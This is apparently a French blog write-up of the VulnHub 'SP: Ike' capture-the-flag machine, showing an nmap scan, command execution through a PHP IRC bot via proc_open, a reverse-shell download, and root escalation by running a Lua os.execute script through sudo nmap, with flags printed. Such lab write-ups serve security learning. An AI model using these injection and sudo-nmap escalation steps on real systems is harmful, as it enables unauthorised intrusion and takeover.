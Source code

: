 # Solution du CTF SP: Ike de VulnHub

[SP: ike](https://www.vulnhub.com/entry/sp-ike-v101,275/) est un CTF de type boot2root proposé sur VulnHub. La description est la suivante :

> Ike is a servant of something which also starts with "I" and has only three letters.

Hmm moi j'imagine plutôt IKE donc VPN mais on voit tout de suite que c'est plutôt IRC :

```
Nmap scan report for 192.168.56.76
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
6667/tcp open  irc     InspIRCd
| irc-info: 
|   server: irc.ike.local
|   users: 2
|   servers: 1
|   chans: 1
|   lusers: 2
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.56.1
|_  error: Closing link: (nmap@192.168.56.1) [Client exited]
```

On a un serveur *InspIRCd*. Aucun exploit n'est présent pour ce logiciel sur exploit-db comme quoi soit il est bien conçu soit il n'intéresse personne :D

Sur ma machine il ne me reste que Pidgin comme client supportant IRC alors on fera avec. Je créé le compte en spécifiant l'adresse IP du serveur puis je vais sur *Comptes > devloop@192.168.56.76 > voir le message du jour* qui m'affiche les infos suivantes :

```
- #############################################
- #               ####  #  #  ####            #     
- #               #  #  #  #  #  #            # 
- #               ###   ####  ###             #
- #               #     #  #  #               #
- #               #     #  #  #               #
- #############################################
- 
- Welcome to the PHP community IRC server where you can get help with your PHP code. 
- Also feel free to talk and share information about PHP in general. 
- Join the main channel at #php for a friendly chat!
- 
- Rules:
- * Don't ask to ask, just ask.
- * Don't paste code directly in the chat, use pastebin.
- * Don't ask the same question again if no one answers.
- * Don't flood the channel in general.
- * Run PHP commands through the PHP bot with !php <command>
- * Please don't try to abuse the bot.
- * Behave like an adult.
- 
- #############################################
- #############################################

```

Avec un client plus traditionnel j'aurais eu le message directement.

Il y a donc un bot sur le chan `#php`. On va causer un peu avec lui :

![VulnHub SP Ike PHP IRC bot](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/sp_ike/irc_phpbot.png)

`proc_open` est donc notre porte d'entrée. Je peux récupérer l'environnement qui en dit suffisemment long sur le compte qui fait tourner le bot :

```php
 !php proc_open("env",array(),$something);
```

```bash
HOME=/home/ike
LOGNAME=ike
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
LANG=en_US.UTF-8
SHELL=/bin/sh
PWD=/home/ike
```

Je rappatrie un reverse-sshx64 dans le dossier courant puis l'exécute pour avoir mon shell et tunnel SSH.

```shellsession
ike@ike:/home/ike$ cat flag.txt 
cdca0db3c1d9a7290
ike@ike:/home/ike$ sudo -l
Matching Defaults entries for ike on ike:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ike may run the following commands on ike:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/nmap
```

Un coup d'oeil à GTFObins plus tard :

```shellsession
ike@ike:/home/ike$ echo 'os.execute("/bin/dash")' > myscript 
ike@ike:/home/ike$ sudo /usr/bin/nmap --script=myscript

Starting Nmap 7.60 ( https://nmap.org ) at 2022-12-20 15:08 CET
NSE: Warning: Loading 'myscript' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
# # flag.txt
# d8f8254074369b6
```

Dans l'output çi-dessus on ne voit pas les commandes que je tape car je suppose que stdin n'est pas répété mais il s'agit des commandes `id`, `ls` et `cat`.

*Publié le 20 décembre 2022*
